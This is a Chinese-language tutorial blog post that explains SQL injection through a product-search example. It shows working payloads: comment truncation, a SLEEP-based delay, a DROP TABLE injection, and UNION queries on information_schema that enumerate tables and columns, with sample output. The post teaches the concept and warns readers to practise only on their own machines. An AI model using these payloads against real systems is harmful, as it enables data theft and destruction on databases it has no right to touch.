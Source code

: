```yaml
---
title: SQL注入基本原理
subtitle: 知已知彼，百战不殆。
description: sql,sql injection,sql注入
date: 2019-11-24
layout: default
bg_url: "assets/images/code.jpg"
category: 技术
---
```


## SQL注入基本原理

WEB技术发展日新月异，但是徒手拼SQL的传统手艺还是受相当多的开发者亲睐。毕竟相比于再去学习一套复杂的[ORM](https://en.wikipedia.org/wiki/Object-relational_mapping)规则，手拼更说方便，直观。通常自己拼SQL的人，应该是有听说过**SQL注入**很危险，但是总是心想：我的SQL语句这么简单，不可能被注入的。

花5分钟看完这个完整的例子，从今往后应该再也不敢有以上侥幸心理了。

### 简单场景

有一个WEB界面提供输入商品名称，展示对应价格，生产日期及生产地信息。例如输入Hammer展示：

| 产品        | 价格  | 生产地   | 生产日期   |
| ----------- | ----- | -------- | ---------- |
| Claw Hammer | 12.98 | American | 2019.11.07 |
| Club Hammer | 29.98 | Canada   | 2019.11.11 |

我们跳过了搭建Web搜索界面的过程，直接关注重点部分: **SQL注入**。

如果要实现以上功能，那么我们大致可以猜到服务器使用的SQL语句如下：

```sql
SELECT ? FROM ? WHERE ? LIKE '%Hammer%';
```

其中`?`表示目前我们并不知道具体的表名和字段名，此SQL唯一可以被操纵的就是单引号里面的输入内容`'%Hammer%`。假如我们直接在查找框里输入一个单引号。即变成

```sql
select ? from ? when ? Like '%'%';    
```

这样拼接后造成SQL语法错误，得不到任何结果，我们需要使用`--`来把最后一个单引号注释掉。

```sql
select ? from ? when ? Like '%'; -- %';    
```

`--`后的是注释内容(你也可以用`#`），这样你可以得到所有的产品信息，目前为止，还是没有嗅到危险的信号。

| 产品         | 价格  | 生产地   | 生产日期   |
| :----------- | ----- | -------- | ---------- |
| Claw Hammer  | 12.98 | American | 2019.11.07 |
| Club Hammer  | 29.98 | Canada   | 2019.11.11 |
| Paring Knife | 10.98 | China    | 2019.11.11 |
| Boning Knife | 19.98 | China    | 2019.01.01 |

### 小试牛刀and

紧紧抓住上一步中可以扩展的单引号部分。来一个简单的延时语句试一试:

```sql
select ? from ? when ? Like '%Hammer' and 1 = SLEEP(2); --%';  
```

这时查询会2秒后才返回结果，如果把时间延长，用脚本多点几次查询，一下就能把数据库的连接池用完。

当然，还有破坏力更强的！

```sql
select ? from ? when ? Like '%Hammer'; drop table xxxx; --%'; 
```

可以直接把表/数据库直接删除掉，至于如何知道引数据库中有哪一些表(即如何确定上句SQL中的`xxxx`)呢？

### 为所欲为union

 我们需要知道此数据库有哪一些表！这样才能能拿到有用的信息。

使用`union`可以把不同表的内容拼在一起，小试一下：

```sql
select ?,?,?,? from ? when ? Like '%hammer' UNION (select 1,2,3,4 from dual); -- %';  
```

| 产品        | 价格  | 生产地   | 生产日期   |
| :---------- | ----- | -------- | ---------- |
| Claw Hammer | 12.98 | American | 2019.11.07 |
| Club Hammer | 29.98 | Canada   | 2019.11.11 |
| 1           | 2     | 3        | 4          |

可以看到我们把假数据`1，2，3，4`成功地拼接到搜索结果中。

Mysql系统自带的信息都存在`information_schema`数据库中。我们试着在里面找找有用的信息。

```sql
select ? from ? when ? Like '%hammer' UNION (select TABLE_NAME,TABLE_SCHEMA,3,4 from information_schema.tables); --%';  
```

| 产品        | 价格    | 生产地   | 生产日期   |
| :---------- | ------- | -------- | ---------- |
| Claw Hammer | 12.98   | American | 2019.11.07 |
| Club Hammer | 29.98   | Canada   | 2019.11.11 |
| authors     | hawkeye | 3        | 4          |
| products    | hawkeye | 3        | 4          |
| user        | hawkeye | 3        | 4          |
| ....        | ....    | 3        | 4          |

现在知道了这些数据库名和表名，所有人都对它为所欲为了！(**包括上面执行的DROP**)。

看着列表一猜就能知道我们目前查的是products表，接下来我们再把products具体的字段也挖出来。

```sql
select ? from ? when ? Like '%hammer' UNION (select COLUMN_NAME,TABLE_SCHEMA,3,4 from imformation_schema.columns where table_name = 'products'); --%';  
```

| 产品        | 价格    | 生产地   | 生产日期   |
| :---------- | ------- | -------- | ---------- |
| Claw Hammer | 12.98   | American | 2019.11.07 |
| Club Hammer | 29.98   | Canada   | 2019.11.11 |
| id          | hawkeye | 3        | 4          |
| name        | hawkeye | 3        | 4          |
| price       | hawkeye | 3        | 4          |
| address     | hawkeye | 3        | 4          |
| updated_at  | hawkeye | 3        | 4          |

所以，通过上面2步，我们知道了表名和字段名，那么查询API的完整SQL应该是(把上面的`?`都补全啦)：

```sql
select name,price,address,updated_at from products where name like '%hammer';
```

通过不断重复以上几个步骤，你就可以通过这一个小小的入口把数据库的所有信息(比如上面发现的`user`表🤤)都翻个遍。



注意：以上都是在自己的机器上尝试的，千万不要越界去hack别人家的服务器！

如果你SQL注入想要更深入/系统的学习，可以使用当然你可以自己本地搭建[DVWA](https://github.com/ethicalhack3r/DVWA)，或挑战[HackMe-SQL-Injection-Challenges](https://github.com/breakthenet/HackMe-SQL-Injection-Challenges)。











